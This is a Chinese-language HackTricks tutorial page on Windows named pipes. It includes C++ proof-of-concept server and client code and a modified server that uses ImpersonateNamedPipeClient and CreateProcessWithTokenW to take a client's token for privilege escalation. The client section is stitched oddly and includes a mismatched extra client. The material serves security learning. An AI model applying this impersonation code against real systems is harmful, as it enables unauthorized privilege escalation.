 # 命名管道客户端模拟

## 命名管道客户端模拟

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载HackTricks的PDF**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks的衣物**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>

**此信息是从**[**https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation**](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation) **复制的**

## 概述

`pipe`是一块用于进程间通信和数据交换的共享内存块。

`命名管道`是Windows的一种机制，它使得两个不相关的进程可以在彼此之间交换数据，即使这些进程位于两个不同的网络上。它非常类似于客户端/服务器架构，因为存在`命名管道服务器`和`命名管道客户端`的概念。

命名管道服务器可以使用一些预定义的名称打开一个命名管道，然后命名管道客户端可以通过已知的名称连接到该管道。一旦建立连接，数据交换就可以开始了。

本实验涉及一个简单的PoC代码，可以实现以下功能：

* 创建一个单线程的简单命名管道服务器，它将接受一个客户端连接
* 命名管道服务器向命名管道写入一条简单的消息，以便管道客户端可以读取它

## 代码

以下是服务器和客户端的PoC代码：

{% tabs %}
{% tab title="namedPipeServer.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>
#include <iostream>

int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

return 0;
}
```
{% tab title="namedPipeClient.cpp" %}

```cpp
#include <windows.h>
#include <stdio.h>

#define PIPE_NAME L"\\\\.\\pipe\\MyNamedPipe"

int main()
{
    HANDLE hPipe;
    DWORD dwBytesRead;
    char buffer[1024];

    // Connect to the named pipe
    hPipe = CreateFile(PIPE_NAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hPipe == INVALID_HANDLE_VALUE)
    {
        printf("Failed to connect to the named pipe. Error code: %d\n", GetLastError());
        return 1;
    }

    // Send a message to the server
    const char* message = "Hello from the client!";
    if (!WriteFile(hPipe, message, strlen(message) + 1, &dwBytesRead, NULL))
    {
        printf("Failed to send message to the server. Error code: %d\n", GetLastError());
        CloseHandle(hPipe);
        return 1;
    }

    // Receive a response from the server
    if (!ReadFile(hPipe, buffer, sizeof(buffer), &dwBytesRead, NULL))
    {
        printf("Failed to receive response from the server. Error code: %d\n", GetLastError());
        CloseHandle(hPipe);
        return 1;
    }

    printf("Response from the server: %s\n", buffer);

    // Close the named pipe
    CloseHandle(hPipe);

    return 0;
}
```

{% endtab %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

const int MESSAGE_SIZE = 512;

int main()
{
LPCWSTR pipeName = L"\\\\10.0.0.7\\pipe\\mantvydas-first-pipe";
HANDLE clientPipe = NULL;
BOOL isPipeRead = true;
wchar_t message[MESSAGE_SIZE] = { 0 };
DWORD bytesRead = 0;

std::wcout << "Connecting to " << pipeName << std::endl;
clientPipe = CreateFile(pipeName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

while (isPipeRead) {
isPipeRead = ReadFile(clientPipe, &message, MESSAGE_SIZE, &bytesRead, NULL);
std::wcout << "Received message: " << message;
}

return 0;
}
```
{% endtab %}
{% endtabs %}

## 执行

下面展示了命名管道服务器和命名管道客户端正常工作的情况：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22.png>)

值得注意的是，默认情况下，命名管道通信使用SMB协议：

![](<../../.gitbook/assets/Screenshot from 2019-04-04 23-51-48.png>)

检查进程如何保持对我们的命名管道`mantvydas-first-pipe`的句柄：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (1).png>)

类似地，我们可以看到客户端对命名管道有一个打开的句柄：

![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (2).png>)

我们甚至可以用powershell看到我们的管道：
```csharp
((Get-ChildItem \\.\pipe\).name)[-1..-5]
```
![](<../../.gitbook/assets/Screenshot from 2019-04-02 23-44-22 (3).png>)

## 令牌冒充

{% hint style="info" %}
请注意，为了冒充客户端进程的令牌，您需要拥有（创建管道的服务器进程）**`SeImpersonate`** 令牌特权。
{% endhint %}

通过利用`ImpersonateNamedPipeClient` API调用，命名管道服务器可以冒充命名管道客户端的安全上下文，从而将命名管道服务器当前线程的令牌更改为命名管道客户端的令牌。

我们可以像下面这样更新命名管道服务器的代码以实现冒充 - 请注意，修改在第25行及以下可见：
```cpp
int main() {
LPCWSTR pipeName = L"\\\\.\\pipe\\mantvydas-first-pipe";
LPVOID pipeBuffer = NULL;
HANDLE serverPipe;
DWORD readBytes = 0;
DWORD readBuffer = 0;
int err = 0;
BOOL isPipeConnected;
BOOL isPipeOpen;
wchar_t message[] = L"HELL";
DWORD messageLenght = lstrlen(message) * 2;
DWORD bytesWritten = 0;

std::wcout << "Creating named pipe " << pipeName << std::endl;
serverPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, 1, 2048, 2048, 0, NULL);

isPipeConnected = ConnectNamedPipe(serverPipe, NULL);
if (isPipeConnected) {
std::wcout << "Incoming connection to " << pipeName << std::endl;
}

std::wcout << "Sending message: " << message << std::endl;
WriteFile(serverPipe, message, messageLenght, &bytesWritten, NULL);

std::wcout << "Impersonating the client..." << std::endl;
ImpersonateNamedPipeClient(serverPipe);
err = GetLastError();

STARTUPINFO	si = {};
wchar_t command[] = L"C:\\Windows\\system32\\notepad.exe";
PROCESS_INFORMATION pi = {};
HANDLE threadToken = GetCurrentThreadToken();
CreateProcessWithTokenW(threadToken, LOGON_WITH_PROFILE, command, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

return 0;
}
```
运行服务器并使用以administrator@offense.local安全上下文运行的客户端连接到它，我们可以看到命名服务器管道的主线程假定了命名管道客户端的令牌 - offense\administrator，尽管PipeServer.exe本身是在ws01\mantvydas安全上下文下运行的。听起来是提升权限的好方法吗？

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在一个**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得最新版本的PEASS或下载PDF格式的HackTricks吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我在**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>
